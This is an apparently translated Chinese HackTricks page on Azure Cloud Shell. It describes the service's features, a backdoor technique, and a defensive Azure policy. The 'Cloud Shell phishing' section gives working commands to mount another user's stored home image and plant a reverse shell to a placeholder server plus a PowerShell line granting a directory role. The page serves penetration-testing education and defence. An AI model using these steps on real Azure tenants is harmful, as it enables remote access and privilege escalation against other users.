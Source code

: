 # Az - Cloud Shell

{{#include ../../../banners/hacktricks-training.md}}

## Azure Cloud Shell

**Azure Cloud Shell** 是一个交互式、经过身份验证的、可通过浏览器访问的终端，旨在管理 Azure 资源，提供使用 Bash 或 PowerShell 的灵活性。它在一个临时的、每个会话的主机上运行，该主机在 20 分钟不活动后超时，同时在 $HOME 位置使用 5-GB 文件共享来持久化文件。Cloud Shell 可以通过多个点访问，包括 Azure 门户、shell.azure.com、Azure CLI 和 PowerShell 文档、Azure 移动应用程序以及 Visual Studio Code Azure 账户扩展。

此服务没有分配权限，因此没有特权升级技术。同时也没有任何类型的枚举。

### 主要特性

- **预安装工具**：Cloud Shell 包含一整套预安装的工具，如 Azure CLI、Azure PowerShell、Terraform、Docker CLI、Ansible、Git，以及文本编辑器如 vim、nano 和 emacs。这些工具随时可用。要列出已安装的包和模块，可以使用 "Get-Module -ListAvailable"、"tdnf list" 和 "pip3 list"。
- **Azure 驱动器 (Azure:)**：Azure Cloud Shell 中的 PowerShell 包含 Azure 驱动器 (Azure:)，允许使用类似文件系统的命令轻松导航 Azure 资源，如计算、网络和存储。使用 cd Azure: 切换到 Azure 驱动器，使用 cd ~ 返回到主目录。您仍然可以使用 Azure PowerShell cmdlet 从任何驱动器管理资源。
- **自定义工具安装**：配置了存储帐户的用户可以安装不需要根权限的额外工具。此功能允许进一步自定义 Cloud Shell 环境，使用户能够根据特定需求调整其设置。
- **$HOME 持久性**：首次启动 Azure Cloud Shell 时，您可以选择使用或不使用附加的存储帐户。
- 选择不附加存储会创建一个临时会话，文件在会话结束时被删除。
- 要在会话之间持久化文件，您可以选择 **挂载存储帐户**，该帐户会自动附加为 `$HOME\clouddrive`，您的 `$HOME` 目录 **作为 .img 文件保存在文件共享中。**

### Cloud Shell 钓鱼

如果攻击者在他具有读写访问权限的存储帐户中找到其他用户的图像，他将能够下载该图像，**在其中添加一个 bash 和 PS 后门**，并将其上传回存储帐户，以便下次用户访问 shell 时，**命令将被自动执行**。

- **下载、后门和上传图像：**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name>

# Mount image
cd /tmp/phishing_img/.cloudconsole
mkdir /tmp/cloudpoison
sudo mount acc_username.img /tmp/cloudpoison
cd /tmp/cloudpoison
sudo mkdir .config
sudo mkdir .config/PowerShell
sudo touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
sudo chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo "Connect-AzureAD; Add-AzureADDirectoryRoleMember -ObjectId 1246bcfd-42dc-4bb7-a86d-3637ca422b21 -RefObjectId 1D8B2447-8318-41E5-B365-CB7275862F8A" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
cd /tmp

sudo umount /tmp/cloudpoison

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img"
```
- **然后，钓鱼用户以访问 https://shell.azure.com/**

### 查找并禁止 Cloud Shell 自动存储帐户

Cloud Shell 创建的存储帐户标记为 **`ms-resource-usage:azure-cloud-shell`**。可以创建一个 Azure 资源策略，禁止创建带有此标签的资源。

通过标签查找所有由 Cloud Shell 创建的存储帐户：
```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```
禁止根据标签创建自动存储帐户的策略：
```json
{
displayName: "Restrict cloud shell storage account creation",
description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
metadata: {
category: "Storage",
version: "1.0.0"
},
mode: "All",
parameters: {
effect: {
type: "String",
metadata: {
displayName: "Effect",
description: "Deny, Audit or Disabled the execution of the Policy"
},
allowedValues: [
"Deny",
"Audit",
"Disabled"
],
defaultValue: "Audit"
}
},
policyRule: {
if: {
allOf: [
{
field: "type",
equals: "Microsoft.Storage/storageAccounts"
},
{
field: "tags['ms-resource-usage']",
equals: "azure-cloud-shell"
}
]
},
then: {
effect: "[parameters('effect')]"
}
}
}
```
## 参考

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)


## 持久性

{{#ref}}
../az-persistence/az-cloud-shell-persistence.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
